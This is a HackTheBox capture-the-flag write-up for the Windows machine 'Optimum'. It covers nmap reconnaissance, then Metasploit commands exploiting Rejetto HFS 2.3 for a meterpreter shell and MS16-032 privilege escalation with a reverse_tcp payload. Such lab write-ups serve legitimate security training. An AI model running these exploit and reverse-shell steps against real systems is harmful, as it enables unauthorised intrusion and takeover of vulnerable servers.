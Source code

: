 ```yaml
---
title: "Optimum - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Optimum
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Optimum
![](https://kar0nx.github.io/assets/images/writeup/bb09ffeaffe2f5220a1d591bb7b4f95e.webp)

## Reconnaissance

IP: 10.10.10.8
### NMAP

```
nmap -T4 -p- -A 10.10.10.8
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 12:19 EST
Nmap scan report for 10.10.10.8
Host is up (0.031s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.79 ms 10.10.14.1
2   31.64 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.13 seconds
```

Nmap found only one open port 80 - HttpFileServer httpd 2.3

## Website

### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221182058.png)

As we could have guessed, it is empty rejetto file server. Let's search for exploits
https://www.exploit-db.com/exploits/39161
https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/

## Gaining Access

Open metasploit, then type 

```
use exploit/windows/http/rejetto_hfs_exec
set lhost tun0
set rhosts 10.10.10.8
set rport 80
run
```

check sysinfo

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221183541.png)

we can grab first flag and continue with escalating privilege 

## Privilege Escalating 

continue using metasploit, background meterpreter

```
search suggester
use 0
set session 1
run
```

Suggester find few exploits, but nothing works for me. we need to search google for Windows Server 2012 R2 (6.3 Build 9600) priv escalation.
https://www.exploit-db.com/exploits/39719
ms16-032 is most popular so let's try it using metasploit

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set session 1
set target 1
set lhost tun0
set payload windows/x64/meterpreter/reverse_tcp
```

Everything works, we have root access

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250221192006.png)

Now simply navigate to Administrator desktop and grab flag.